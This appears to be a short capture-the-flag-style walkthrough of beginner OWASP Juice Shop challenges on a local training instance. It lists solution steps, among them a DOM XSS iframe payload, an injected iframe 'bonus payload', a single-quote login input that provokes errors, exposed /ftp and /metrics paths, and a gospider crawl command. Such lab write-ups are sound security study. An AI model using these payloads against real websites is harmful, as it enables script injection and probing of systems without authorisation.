 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupong <br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br>

### Bonus Payload<br>
Search bar > <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe><br>

### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br>

### Error Handling<br>
Account Login > put ' in email and password fields<br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_format --json<br> 

### Exposed Metrics<br>
http://localhost:3000/metrics<br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br>

